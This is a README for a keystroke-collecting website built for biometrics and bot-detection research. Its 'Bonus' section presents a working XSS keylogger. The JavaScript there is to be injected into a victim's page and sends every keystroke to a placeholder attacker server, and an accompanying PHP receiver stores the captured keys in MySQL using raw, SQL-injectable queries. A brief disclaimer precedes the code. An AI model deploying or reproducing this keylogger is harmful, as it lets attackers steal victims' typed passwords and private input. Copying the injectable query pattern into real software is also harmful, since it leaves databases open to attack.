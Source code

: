 <!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]

<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/reevesba/keystrokebiometrics.xyz">
    <img src="assets/img/logo.png" alt="Logo">
  </a>

  <p align="center">
    Collects keystroke data using the LAMP stack. 
    <br />
    <a href="https://github.com/reevesba/keystrokebiometrics.xyz"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://keystrokebiometrics.xyz>View Demo</a>
    ·
    <a href="https://github.com/reevesba/keystrokebiometrics.xyz/issues">Report Bug</a>
    ·
    <a href="https://github.com/reevesba/keystrokebiometrics.xyz/issues">Request Feature</a>
  </p>
</p>

<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>



<!-- ABOUT THE PROJECT -->
## About The Project
![assets/img/site-screenshot.png](assets/img/site-screenshot.png)

This simple website was created to collect keystroke data for another one of my projects. For each keystroke, a record is inserted into a MySQL table. Here is the table schema: 

<p align="center">
  <a href="#">
    <img src="assets/img/table-schema.png" alt="Logo">
  </a>
</p>

This will be used to create machine learning models. My current plan is to use this data to create features for an unsupervised learning model where users will hopefully be separated into clusters. In addition, I will be collecting bot keystroke data to create a supervised learning model that will distinguish between bot and not bot.

### Built With
<a href="https://www.linuxfoundation.org/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/linux.svg" alt="linux">
</a>
<a href="https://www.apache.org/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/apache.svg" alt="apache">
</a>
<a href="https://www.mysql.com/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/mysql.svg" alt="mysql">
</a>
<a href="https://www.php.net/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/php.svg" alt="php">
</a>
<a href="https://www.javascript.com/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/javascript.svg" alt="javascript">
</a>
<a href="https://getbootstrap.com/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/bootstrap.svg" alt="bootstrap">
</a>

<br />
<br />

<!-- GETTING STARTED -->
## Getting Started
This repository can be cloned onto your server to quickly start collecting user keystroke information.

### Prerequisites
Configure your web server. Here are some useful articles for configuring a LAMP server. Of course, you have other options as well. 

- [Installing LAMP Stack on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-install-linux-apache-mysql-php-lamp-stack-ubuntu-18-04)
- [Securing Apache on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-secure-apache-with-let-s-encrypt-on-ubuntu-18-04)
[]()

### Installation
1. Clone the repo into your /var/www directory or virtual host directory.
   ```sh
   git clone https://github.com/reevesba/keystrokebiometrics.xyz
   ```
<!-- USAGE EXAMPLES -->
## Usage
The usage of this site is straighforward - use it to collect keystroke data. 

### Bonus
Portions of this project can be used to create a XSS keylogger. <strong>Any malicious use of this software is not recommended and should be for educational purposes only. Be sure to have the permission of all parties involved.</strong>

For an XSS keylogging attack, simply inject the following JavaScript into the victim's DOM.

<details>
<summary>View JavaScript</summary>

```
(function() {
    const url = 'https://yourserverurl/assets/php/keylogger.php?';
    const header = 'Content-type';
    const value = 'application/x-www-form-urlencoded';

    const postData = (event) => {
        // Create request object
        if (window.XMLHttpRequest) {
            var request = new XMLHttpRequest();
        } else {
            var request = new ActiveXObject('Microsoft.XMLHTTP');
        }

        // Setup transmit data
        var uuid = select('#uuid').value;
        var altKey = event.altKey ? 1 : 0;
        var ctrlKey = event.ctrlKey ? 1 : 0;
        var shiftKey = event.shiftKey ? 1 : 0;

        var data = 'uuid=' + uuid + 
                   '&keyEvent=' + event.type + 
                   '&keyCode=' + event.keyCode + 
                   '&keyChar=' + event.key + 
                   '&altKey=' + altKey + 
                   '&ctrlKey=' + ctrlKey + 
                   '&shiftKey=' + shiftKey + 
                   '&timestamp=' + new Date().getTime();

        // Uncomment to enable debugging
        //console.log(data);

        // Send data to server
        request.open('POST', url, true);
        request.setRequestHeader(header, value);
        request.onreadystatechange = function() {
            // Uncomment to enable debugging
            //console.log(this.responseText);
        }
        request.send(data);
    };

    window.addEventListener('keydown', (event) => {
        postData(event);
    });
})()
```
</details>

On your server, create a PHP file to recieve the data. I called mine keylogger.php, but you can name it whatever you want. Just be sure to update the URL in the JavaScript file. Add the following code to the file. As you may notice, you will need to to set a couple of environment variables with your MySQL credentials.

<details>
<summary>View PHP</summary>

```
<?php
// Establish database connection
$username = $_ENV['MYSQL_USER'];
$password = $_ENV['MYSQL_PASSWORD'];

$connection = mysqli_connect('localhost', $username, $password, 'production');

if (mysqli_connect_errno()) {
    echo "Failed to connect to MySQL: " . mysqli_connect_error();
}

// Collect post data
$uuid = $_POST['uuid'];
$keyEvent = $_POST['keyEvent'];
$keyCode = $_POST['keyCode'];
$keyChar = $_POST['keyChar'];
$altKey = $_POST['altKey'];
$ctrlKey = $_POST['ctrlKey'];
$shiftKey = $_POST['shiftKey'];
$timestamp = $_POST['timestamp'];

// Insert data
if (!mysqli_query($connection, "INSERT INTO KEYSTROKE_METRICS (`uuid`, `key_event`, `key_code`, `key_char`, `alt_key`, `ctrl_key`, `shift_key`, `timestamp`) VALUES ('$uuid', '$keyEvent', '$keyCode', '$keyChar', '$altKey', '$ctrlKey', '$shiftKey', '$timestamp')")) {
    echo("Error description: " . mysqli_error($connection));
}

// Close connection
mysqli_close($connection);
?>
```
</details>

<!-- ROADMAP -->
## Roadmap
See the [open issues](https://github.com/reevesba/keystrokebiometrics.xyz/issues) for a list of proposed features (and known issues).

<!-- CONTRIBUTING -->
## Contributing
Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/newFeature`)
3. Commit your Changes (`git commit -m 'adding new feature xyz'`)
4. Push to the Branch (`git push origin feature/newFeature`)
5. Open a Pull Request

<!-- LICENSE -->
## License
Distributed under the GPLv3 License. See `LICENSE` for more information.

<!-- CONTACT -->
## Contact
Bradley Reeves - reevesbra@outlook.com

Project Link: [https://github.com/reevesba/keystrokebiometrics.xyz](https://github.com/reevesba/keystrokebiometrics.xyz)

<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[contributors-url]: https://github.com/reevesba/keystrokebiometrics.xyz/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[forks-url]: https://github.com/reevesba/keystrokebiometrics.xyz/network/members
[stars-shield]: https://img.shields.io/github/stars/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[stars-url]: https://github.com/reevesba/keystrokebiometrics.xyz/stargazers
[issues-shield]: https://img.shields.io/github/issues/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[issues-url]: https://github.com/reevesba/keystrokebiometrics.xyz/issues
[license-shield]: https://img.shields.io/github/license/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[license-url]: https://github.com/reevesba/keystrokebiometrics.xyz/blob/master/LICENSE.txt
